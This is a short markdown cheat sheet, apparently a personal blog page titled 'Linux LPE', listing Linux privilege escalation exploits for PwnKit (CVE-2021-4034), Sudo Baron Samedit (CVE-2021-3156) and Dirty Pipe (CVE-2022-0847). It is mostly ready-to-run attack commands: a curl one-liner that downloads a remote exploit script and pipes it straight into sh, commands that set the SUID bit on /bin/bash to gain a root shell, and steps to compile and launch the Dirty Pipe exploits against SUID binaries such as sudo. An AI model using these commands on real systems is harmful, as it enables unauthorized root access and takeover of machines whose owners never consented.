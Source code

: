 ```yaml
---
title: Linux LPE
author: asphixie
date: 2023-03-10 20:55:00 +0800
categories: [Linux, Privilege Escalation]
tags: [getting started]
pin: true
---
```


## CVE-2021-4034 : Polkit privilege escalation exploit
Many PoCs on internet. This one can be used easily, downloading it on Internet : 
```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```
More information on : https://github.com/ly4k/PwnKit

## CVE-2021-3156 : Sudo Baron Samedit exploit
Based on <https://github.com/redhawkeye/sudo-exploit>
Adding SUID to bash if you can control a binary/script launched by root :
```bash
chmod +s /bin/bash
/bin/bash -p
```

## CVE-2022-0847 : Dirty Pipe
Based on <https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits>. Start with compile :
```bash
./compile.sh
```
Then launch the exploit :
```bash
./exploit-1
```
If doesn't works, try to find SUID binaries (sudo for example) :
```bash
find / -perm -4000 2>/dev/null
./exploit-2 /usr/bin/sudo
```

